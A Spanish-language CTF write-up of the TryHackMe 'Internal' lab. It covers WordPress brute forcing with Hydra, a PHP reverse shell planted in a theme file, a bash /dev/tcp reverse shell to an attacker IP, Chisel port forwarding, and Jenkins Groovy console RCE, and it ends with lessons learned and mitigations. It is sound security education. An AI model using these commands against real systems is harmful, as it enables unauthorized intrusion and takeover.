# Internal

> **Plataforma:** TryHackMe<br>
> **Dificultad:** Difícil
> **Sistema operativo:** Linux

## Resumen

Máquina Linux de TryHackMe donde se compromete **WordPress**, se accede a un **Jenkins interno mediante Chisel** y finalmente se obtienen credenciales de `root` en texto plano.

---
## Cadena de ataque

```text
WordPress
   ↓
Fuerza bruta → admin
   ↓
RCE → www-data
   ↓
Credenciales → aubreanna
   ↓
Jenkins interno + Chisel
   ↓
RCE Groovy → jenkins
   ↓
Credenciales root
   ↓
root
```

---
# Reconocimiento - Enumeración

Realizamos un reconocimiento inicial de los puertos y servicios TCP expuestos:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.130.163.249 -oG allPorts
nmap -p22,80 -sCV -Pn 10.130.163.249 -oN targeted
```

Tras el escaneo encontramos los servicios **SSH** y **HTTP**, ejecutándose en los puertos `22` y `80` respectivamente.

| Puerto | Servicio | Versión | Hallazgo |
|---|---|---|---|
| 22 | SSH | OpenSSH 7.6p1 | Versión antigua, potencialmente enumerable |
| 80 | HTTP | Apache httpd 2.4.29 | WordPress expuesto |

Antes de profundizar en SSH, realizamos reconocimiento sobre la aplicación web en busca de CMS, usuarios y posibles vectores de ataque.





Se identifica una instalación de **WordPress** y, revisando las publicaciones disponibles, encontramos un usuario llamado:

```text
admin
```



También se identifica el dominio:

```text
internal.thm
```

### Hallazgos

- Usuario WordPress: `admin`
- CMS: WordPress
- Dominio: `internal.thm`
- SSH: `22/tcp`
- HTTP: `80/tcp`

---

# Explotación

## Fuerza bruta contra WordPress

Una vez identificado el usuario `admin`, realizamos un ataque de fuerza bruta contra el formulario de autenticación de WordPress utilizando **Hydra**:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.130.163.249 http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Error" -t 4 -f
```

Tras finalizar el ataque se obtiene una contraseña válida para el usuario `admin`.



Accedemos al panel de administración y revisamos la versión de WordPress y los plugins instalados.



## RCE mediante edición del tema

Al no encontrar inicialmente plugins vulnerables, aprovechamos los permisos administrativos de WordPress para modificar un archivo PHP del tema activo.

Generamos una reverse shell PHP:

```bash
msfvenom -p php/reverse_php LHOST=192.168.139.111 LPORT=444 -f raw > revshell.php

cat revshell.php | xclip -sel clip
```

Insertamos el código dentro de:

```text
footer.php
```



Nos ponemos en escucha:

```bash
nc -lvnp 444
```

Al cargar la página que utiliza dicho `footer.php` que se encuentra en la página principal, recibimos una reverse shell.



Obtenemos una reverse Shell como el usuario `www-data`, posteriormente realizamos un tratamiento de la TTY para obtener una sesión mas cómoda:

```bash
bash -c 'bash -i >& /dev/tcp/192.168.139.111/441 0>&1'
```

En Kali:

```bash
nc -lvnp 441

script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=/bin/bash
```



> [!note] Resultado
> Se obtiene acceso interactivo como `www-data`.

---

## Movimiento lateral local

Realizamos enumeración del sistema buscando:

- Usuarios.
- Credenciales.
- Archivos de configuración.
- Servicios internos.
- Información sensible.

Durante la enumeración encontramos un archivo que contiene credenciales del usuario `aubreanna`:



Utilizamos dichas credenciales para pivotar desde `www-data` hacia `aubreanna`.

Una vez autenticados como `aubreanna`, encontramos la primera flag y un archivo que revela que existe un servicio **Jenkins ejecutándose únicamente en localhost por el puerto 8080**.



El servicio no está expuesto directamente al exterior así que se hacemos un Port Forwarding.
## Port Forwarding con Chisel

Para acceder al Jenkins interno desde nuestra máquina Kali utilizamos **Chisel**.

En Kali:

```bash
./chisel server --reverse -p 7777
```

En la víctima:

```bash
./chisel client 192.168.139.111:7777 R:8080:127.0.0.1:8080
```

Ahora podemos acceder desde Kali mediante:

```text
http://127.0.0.1:8080
```





---

## Explotación de Jenkins

Nos encontramos ante el panel de login de Jenkins y reutilizamos el nombre de usuario descubierto anteriormente para realizar un ataque de fuerza bruta con `Hydra`:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 \
http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -t 4 -f -s 8080
```





Una vez dentro de Jenkins obtenemos acceso a la **Script Console**, que permite ejecutar código Groovy en el servidor.

Utilizamos una reverse shell en `Groovy` generada desde:

> [Revshells 💀](https://www.revshells.com/)



La reverse shell conecta nuevamente hacia nuestra máquina atacante. Obtenemos acceso como `jenkins`:



> [!important] Jenkins Script Console
> La Script Console permite ejecutar código Groovy directamente en el sistema donde se ejecuta Jenkins.<br>
> Si un atacante obtiene acceso administrativo a Jenkins, normalmente puede convertirlo en **ejecución remota de comandos (RCE)**.

---

# Escalada de Privilegios

Desde el usuario `jenkins` realizamos nuevamente enumeración del sistema.

Durante la búsqueda encontramos:

```bash
/opt/note.txt
```

El archivo contiene credenciales del usuario `root`:



Utilizamos las credenciales para autenticarnos mediante SSH:

```bash
ssh root@10.130.158.78
```



---
# Cadena final

```text
WordPress → Fuerza bruta (admin) → RCE (www-data) → Credenciales (aubreanna) → Jenkins interno + Chisel → Fuerza bruta + Groovy RCE (jenkins) → Credenciales root → SSH → root
```

---
# Aprendizajes

- WordPress admin puede derivar en **RCE**.
- Revisar siempre servicios internos con `ss -lntup`.
- **Chisel** es útil para port forwarding.
- Jenkins con acceso administrativo puede permitir **RCE**.
- Buscar siempre credenciales, backups y archivos sensibles.
- Repetir la enumeración tras cada nuevo acceso.

---
# Mitigaciones

- Usar contraseñas robustas y protección contra fuerza bruta.
- Evitar reutilizar credenciales entre servicios.
- Restringir la edición de archivos en WordPress.
- Mantener WordPress y Jenkins actualizados.
- Proteger el acceso a la **Script Console** de Jenkins.
- No almacenar credenciales en texto plano.
- Aplicar mínimo privilegio y segmentación interna.
